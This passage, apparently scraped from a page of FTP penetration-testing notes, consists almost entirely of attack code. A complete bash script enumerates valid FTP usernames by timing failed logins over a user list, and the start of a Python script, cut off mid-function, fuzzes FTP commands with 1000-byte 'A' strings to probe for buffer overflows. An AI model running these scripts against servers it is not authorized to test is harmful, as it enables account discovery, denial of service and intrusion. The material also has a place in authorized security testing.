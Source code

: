 ```python
```

### Advanced Attack Vectors

#### FTP Timing Attack for User Enumeration
```bash
#!/bin/bash
# ftp-timing-enum.sh
TARGET=$1
USERLIST=$2

echo "FTP Timing Attack User Enumeration"
echo "Target: $TARGET"

while IFS= read -r username; do
    echo -n "Testing user: $username ... "
    
    start_time=$(date +%s%N)
    timeout 10 expect << EOF > /dev/null 2>&1
    spawn ftp $TARGET
    expect "Name"
    send "$username\r"
    expect "Password:"
    send "wrongpassword\r"
    expect {
        "530" { send "quit\r" }
        "331" { send "quit\r" }
    }
EOF
    end_time=$(date +%s%N)
    
    duration=$((($end_time - $start_time) / 1000000))
    echo "${duration}ms"
    
    # Users that exist typically take longer to respond
    if [ $duration -gt 1000 ]; then
        echo "  [+] Potential valid user: $username (${duration}ms response)"
    fi
    
done < "$USERLIST"
```

#### FTP Buffer Overflow Testing
```python
#!/usr/bin/env python3
# ftp-buffer-test.py
import socket
import sys

def test_ftp_buffer(target, port=21):
    """Test FTP server for buffer overflow vulnerabilities"""
    
    test_cases = [
        ("USER", "A" * 1000),
        ("PASS", "A" * 1000), 
        ("CWD", "A" * 1000),
        ("STOR", "A" * 1000),
        ("RETR", "A" * 1000)
    ]
    
    for command, payload in test_cases:
        try:
            print(f"Testing {command} with {len(payload)} byte payload")
```